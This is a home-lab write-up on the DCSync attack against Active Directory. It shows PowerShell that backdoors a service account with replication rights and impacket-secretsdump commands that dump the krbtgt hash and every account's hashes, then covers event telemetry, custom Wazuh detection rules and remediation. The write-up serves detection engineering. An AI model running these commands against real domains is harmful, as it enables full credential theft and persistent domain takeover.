

DCSync
Summary
DCSync abuses Active Directory's replication mechanism, the legitimate process by which domain controllers synchronize data. An account holding the "Replicating Directory Changes" and "Replicating Directory Changes All" extended rights can request replication data, including password hashes, from a real DC while impersonating one. No code runs on the DC and its disk is never touched; the attacker simply asks the DC to hand over secrets over the normal replication protocol. Pulling the krbtgt hash is the endgame: it enables Golden Tickets, forged Kerberos tickets that grant indefinite, undetectable domain persistence.
MITRE ATT&CK: T1003.006 (OS Credential Dumping: DCSync) Target in this lab: the entire domain, demonstrated on krbtgt and pprice
The misconfiguration
DCSync requires two extended rights on the domain object: DS-Replication-Get-Changes and DS-Replication-Get-Changes-All. Domain Admins hold these by default, but they can also be granted to any account, which is a common and dangerous persistence technique: an attacker who reaches DA once backdoors a low-profile account with replication rights, so they can re-dump the domain later even if their DA access is revoked.
To demonstrate this cleanly, the rights were granted to svc_web, an ordinary non-privileged service account (attacker had already reached Domain Admin via the ACL-abuse part of this lab and used that access to plant this backdoor):
# granted on the DC, on the domain object
$domainDN = (Get-ADDomain).DistinguishedName
$acl = Get-Acl "AD:$domainDN"
$sid = (Get-ADUser svc_web).SID
$getChanges = [guid]"1131f6aa-9c07-11d1-f79f-00c04fc2dcd2"
$getChangesAll = [guid]"1131f6ad-9c07-11d1-f79f-00c04fc2dcd2"
foreach ($right in @($getChanges, $getChangesAll)) {
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
$sid,
[System.DirectoryServices.ActiveDirectoryRights]::ExtendedRight,
[System.Security.AccessControl.AccessControlType]::Allow,
$right)
$acl.AddAccessRule($ace)
}
Set-Acl -Path "AD:$domainDN" -AclObject $aclExecution
From Kali, authenticating as svc_web (the backdoored non-admin), Impacket's secretsdump performs the DCSync:
# the crown jewel: krbtgt (Golden Ticket key)
impacket-secretsdump ecorp.local/svc_web:'LabP@ssw0rd!2025'@10.0.0.88 -just-dc-user krbtgt
# the narrative trophy: Phillip Price, E Corp CEO
impacket-secretsdump ecorp.local/svc_web:'LabP@ssw0rd!2025'@10.0.0.88 -just-dc-user pprice
# or the entire domain
impacket-secretsdump ecorp.local/svc_web:'LabP@ssw0rd!2025'@10.0.0.88 -just-dc![Kali terminal running impacket-secretsdump as svc_web against the ecorp.local DC three times. The first pulls the krbtgt account, grabbing its NTLM hash and AES256/AES128/DES Kerberos keys - the Golden Ticket key. The second pulls pprice (the CEO trophy account) and its keys. The third uses -just-dc to replicate the entire domain, dumping NTLM hashes for every account: Administrator and Guest (redacted), krbtgt, and the full roster of ecorp.local users. Each run reports the DRSUAPI replication method and 'Cleaning up'.](../../images/vulnerable-ad-lab-images/DCSync-Attack.png)
svc_web, secretsdump uses the replication rights from the setup to pull the krbtgt key (the Golden Ticket seed), then pprice, then the entire domain via -just-dc. No code runs on the DC - it's abusing legitimate replication, which is exactly why detecting it means watching for the replication request itself.The output is NTLM hashes (user:RID:LM:NTLM:::). Obtaining krbtgt's hash means total domain compromise: the attacker can forge Golden Tickets and persist indefinitely. By pulling Price's hash, fsociety owns E Corp's CEO. The full kill chain is now complete: sprayed employee credential -> helpdesk account -> ACL abuse -> Domain Admin -> replication backdoor -> every hash in the domain.
Telemetry generated
Two footprints, matching the two stages:
Stage 1, the rights being granted (setup) -> Event 5136
The replication rights being added to svc_web are recorded as a DACL modification on the domain object. In the event's SDDL value, svc_web's SID appears paired with both replication GUIDs.
| Field | Value |
|---|---|
win.system.eventID |
5136 |
win.eventdata.objectClass |
domainDNS (the domain head) |
win.eventdata.attributeLDAPDisplayName |
nTSecurityDescriptor |
Stage 2, the DCSync itself -> Event 4662
| Field | Value | Why it matters |
|---|---|---|
win.system.eventID |
4662 | Operation performed on an object |
win.eventdata.subjectUserName |
svc_web | The requesting account |
win.eventdata.properties |
…{1131f6aa…} / {1131f6ad…} | The replication GUIDs |
The replication GUIDs in the win.eventdata.properties field are the DCSync signature.
Detection
This part of the lab exposed the most important detection lesson in this lab: DCSync is often invisible by default.
When first checked, the DCSync 4662 events were reaching the Wazuh manager (confirmed in archives) but were not producing any alert, the stock ruleset has no rule that surfaces replication-GUID access. 4662 is an extremely high-volume event, so it is generally left unalerted. The result is that one of the most severe AD attacks, full credential extraction, generates no alert in a default configuration. Many real environments do not detect DCSync at all until it is too late. Building the rule to close this gap is the core of this.
The detection also required the sharpest false-positive handling in the lab. Domain controllers perform replication constantly and legitimately, generating 4662 events with the exact same replication GUIDs. An archived example showed the DC's own machine account (DC-VULN$, SID S-1-5-18 / SYSTEM) doing normal replication. A naive "alert on the replication GUID" rule would fire on every one of these. The fix: alert on the GUID but EXCLUDE machine accounts. Legitimate replication comes from domain controllers, whose accounts end in $; a DCSync attack comes from a user account (svc_web), which does not.
Custom rules (/var/ossec/etc/rules/local_rules.xml):
<group name="dcsync,credential_access,attack,windows,">
<!-- DCSync: replication requested by a non-DC account (the abuse) -->
<rule id="100230" level="13">
<if_sid>60103</if_sid>
<field name="win.system.eventID">^4662$</field>
<field name="win.eventdata.properties">1131f6aa|1131f6ad</field>
<field name="win.eventdata.subjectUserName" negate="yes">\$$</field>
<description>Possible DCSync: directory replication requested by non-DC account $(win.eventdata.subjectUserName)</description>
<mitre><id>T1003.006</id></mitre>
</rule>
<!-- DCSync: DACL modified on the domain head (the rights grant) -->
<rule id="100231" level="12">
<if_sid>60103</if_sid>
<field name="win.system.eventID">^5136$</field>
<field name="win.eventdata.objectClass">^domainDNS$</field>
<field name="win.eventdata.attributeLDAPDisplayName">^nTSecurityDescriptor$</field>
<description>DACL modified on domain object $(win.eventdata.objectDN) - possible DCSync rights grant</description>
<mitre><id>T1003.006</id></mitre>
</rule>
</group>Rule design notes:
- Rule 100230: Matches the replication GUID, then excludes machine accounts via
negate="yes"on\$$. This single exclusion is what makes the rule usable: it filters out all legitimate DC-to-DC replication (from$-suffixed computer accounts) and leaves only replication from user accounts, the DCSync fingerprint. Level 13, the highest in the lab, because non-DC replication is domain-total-compromise. - 100231 scopes to
domainDNS, so it only fires on DACL changes to the domain head where replication rights are granted, not on every object. - Two-stage coverage: 100231 catches the backdoor being planted, 100230 catches it being used.
Results: both rules fired, 100230 at level 13 (DCSync by svc_web), 100231 at level 12 (rights granted on the domain object).

100231 catches the DACL grant on the domain head (event 5136), and rule 100230 catches the replication itself (event 4662) requested by the non-DC account svc_web. The plant and the abuse are each caught independently.False positives / tuning: the machine-account exclusion handles the main source (legitimate DC replication), but Azure AD Connect / entra sync accounts and some backup solutions also legitimately hold replication rights and are user accounts. In production, those known-good accounts should be allowlisted by name rather than relying solely on the $ exclusion.
Remediation
- Audit which principals hold
DS-Replication-Get-Changes-Allon the domain object; it should be only domain controllers and known sync services. - Remove replication rights from any user/service account that shouldn't have them.
- If krbtgt may have been dumped, rotate the krbtgt password TWICE (the double rotation invalidates existing Golden Tickets).
- Monitor for replication from non-DC accounts (rule 100230) and for replication rights being granted (rule 100231).
Notes/Troubleshooting
- DCSync was invisible until a custom rule was written. The 4662 events reached the manager but the stock ruleset never alerted on them.
- False positives from legitimate DC replication. Real DCs generate the same replication-GUID 4662s constantly (observed from
DC-VULN$/SYSTEM). The machine-account exclusion (negateon$) is what separates attack from normal operation. - The GUID lives in
win.eventdata.propertiesas a string with a%%7688prefix; a substring match on the GUID works.